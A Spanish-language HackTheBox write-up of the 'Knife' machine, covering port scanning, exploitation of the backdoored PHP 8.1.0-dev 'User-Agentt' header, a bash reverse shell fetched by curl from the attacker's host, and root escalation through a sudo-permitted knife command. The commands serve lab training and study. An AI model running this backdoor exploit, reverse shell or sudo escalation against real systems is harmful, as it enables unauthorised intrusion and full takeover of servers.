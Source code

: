 ```yaml
---
layout: single
author_profile: true
title: HTB Knife
excerpt: "Vamos a resolver la maquina Knife de HackTheBox. ¡Let's hack!"
date: 2022-04-28
classes: wide
header:
  teaser: /assets/images/knife/01inicio.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - Writeup
  - Knife
---
```


<p align="center">
<img src="/assets/images/knife/01inicio.png">
</p>

¡Hola!
En esta ocasión vamos a resolver de la maquina **Knife** de [HackTheBox](https://app.hackthebox.com/).
La maquina es nivel “Easy”, sin embargo, el nivel siempre se lo pones tú, al enfrentar estos retos, ¡vamos a ponernos hack!

## PREPARACIÓN

Para iniciar nuestra máquina, vamos a crear un directorio de trabajo con el nombre `knife` y los subdirectorios `nmap` junto con `exploit`, con el objetivo de organizar la información que recopilemos en la realización de la máquina.

```bash
❯ mkdir knife
❯ cd !$
cd knife
❯ mkdir nmap exploit
```

## RECONOCIMIENTO  

Accedemos al directorio `nmap` e iniciamos nuestra fase de reconocimiento sobre el objetivo por medio de una traza **ICMP**.

```bash
❯ ping -c 1 10.10.10.242 | grep ttl | awk '{print $4,$6}'
10.10.10.242: ttl=63
```

Identificamos que es una maquina **Linux** debido a su ttl (time to live) correspondiente a 63 (Disminuye en 1 debido a que realiza un salto adicional en el entorno de HackTheBox).

* TTL => 64	Linux
* TTL => 128	Windows

Continuamos con la enumeración de los **65535** puertos en la máquina. 

```bash
❯ sudo nmap -p- --open -sS --min-rate 5000 -n -Pn 10.10.10.242 -oG openPorts | grep open
22/tcp open  ssh
80/tcp open  http
```

Luego de identificar los puertos abiertos `OPEN`, se procede a escanear servicios y versiones que puedan estar en nuestro objetivo.

```bash
❯ nmap -p22,80 -sCV 10.10.10.242 -oG deepScan
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-17 13:38 -05
Nmap scan report for 10.10.10.242
Host is up (0.090s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Podemos identificar que el puerto `80` tiene una página web en servicio, por lo que revisamos con el explorador la página en cuestión.

<p align="center">
<img src="/assets/images/knife/03page.png">
</p>

Vamos a realizar un **fuzzing** por medio de la generación de múltiples peticiones con diferentes terminaciones a la página web, con el fin de detectar rutas de acceso a información o explotación, sin embargo, no es posible la extracción de información que fuera de ayuda para el ejercicio (solo muestro el comando para fines educativos).

```bash
❯ wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.242/FUZZ
```

A continuación, vamos a realizar la enumeración de software utilizado para la creación de la página web a través de la utilidad `whatweb`.

```bash
❯ whatweb http://10.10.10.242/
http://10.10.10.242/ [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Scrip>
```

Como se puede ver, tenemos la versión `PHP 8.1.0-dev`, la cual vamos a buscar en la base de datos de exploits por medio de la utilidad `searchsploit`

```bash
❯ searchsploit PHP 8.1.0-dev | grep dev
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution	| php/webapps/49933.py
```

Encontramos un exploit que genera un backdoor por medio de una modificación en las cabeceras de la petición web, todo esto por con el fin de lograr un RCE (Remote Command Excecution).

```bash
"User-Agentt: zerodiumsystem ('whoami');"
```

## EXPLOTACIÓN

Bien, ahora que tenemos conocimiento de esta vulnerabilidad, vamo a probar en la maquina victima por medio de la utilidad `curl` que nos permite modificar parámetros como en este caso el **User Agent** (Entramos a la carpeta exploit antes de ejecutar nuestra prueba).

```bash
cd ../exploit
❯ curl -s -X GET http://10.10.10.242/ -H "User-Agentt: zerodiumsystem ('whoami');" | head -n 1
james
```
¡Tenemos ejecución remota de comandos! Podemos ver que el usuario `james` es un usuario de la maquina víctima.

Vamos a generar una reverse shell en bash para cargarla y después ejecutarla en la máquina, para esto creamos el archivo `escalation.sh` con el siguiente contenido.

```bash
❯ cat escalation.sh
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.12/5555 0>&1'
```

Ahora que tenemos nuestra reverse shell, vamos a iniciar en nuestra maquina un servidor web con ayuda de `python`

```bash
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Luego de tener nuestro servidor activo, generamos una petición al servidor web victima por medio del exploit encontrado anteriormente, en esta ocasión para **subir** el archivo en la maquina vulnerable.

```bash
❯ curl -s -X GET http://10.10.10.242/ -H 'User-Agentt: zerodiumsystem(" curl http://10.10.14.12:8000/escalation.sh -o /tmp/escalation.sh ");'
```

Al tener la reverse shell solo queda ejecutarlo, sin embargo, antes de ejecutar el comando es necesario ponerse en escucha por el puerto que se indicó al momento de configurar la reverse shell, para este caso es el puerto `5555`.

```bash
❯ nc -lnvp 5555
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::5555
Ncat: Listening on 0.0.0.0:5555
```
Finalmente ejecutamos el comando para accionar la reverse shell desde la maquina víctima.

```bash
❯ curl -s -X GET http://10.10.10.242/ -H 'User-Agentt: zerodiumsystem(" bash /tmp/escalation.sh ");'
```

Vamos a verlo en acción.

<p align="center">
<img src="/assets/images/knife/04intrusion.png">
</p>

¡Obtenemos acceso a la maquina!

El primer paso luego de obtener una shell es realizar el tratamiento de la TTY, por lo que dejare el procedimiento de cómo realizarlo (Esto se hace inicialmente en la maquina a la cual tenemos acceso).

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
reset
xterm
export XTERM=xterm
export SHELL=bash
```

Ahora que estamos dentro de la maquina con el usuario `james`, vamos a escalar privilegios para lograr ser `root`, pero antes de eso vamos a leer la flag del usuario.

```bash
james@knife:/$ find . -name user.txt 2>/dev/null
./home/james/user.txt
james@knife:/$ head -c 10 ./home/james/user.txt; echo
b2bf0e7aa5
```
## ESCALAMIENTO

¡Perfecto! Ahora si vamos a revisar permisos por medio del comando `sudo -l`, así podremos ver qué tipo de utilidades puede ejecutar el usuario `james` con privilegios.

```bash
james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Vemos que `james` puede ejecutar el comando `knife` sin necesidad de ingresar credenciales.

Por medio del recurso [GTFOBins](https://gtfobins.github.io/gtfobins/knife/) identificamos una vía potencial de escalamiento de privilegios, ejecutando lo siguiente.

```bash
sudo knife exec -E 'exec "/bin/sh"'
```

Procedemos a realizar la prueba en nuestra maquina vulnerada.

```bash
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'
# whoami
root
```

¡Logramos tener acceso a la maquina como `root`!

Solo hace falta buscar la flag correspondiente y eso sería todo.

```bash
# find . -name root.txt 2>/dev/null
./root/root.txt
# head -c 10 ./root/root.txt ; echo
4b01b07a6d
```

¡Hemos logrado nuestra primera maquina del blog en HackTheBox!

<p align="center">
<img src="/assets/images/knife/05finish.png">
</p>

Por último, les recomiendo seguir **practicando** y si pueden generar contenido, mucho mejor! Espero les pueda servir de algo este material.

_¡Que tengan un buen día en el planeta donde se encuentren!_

**Nos vemos en otro bit.**

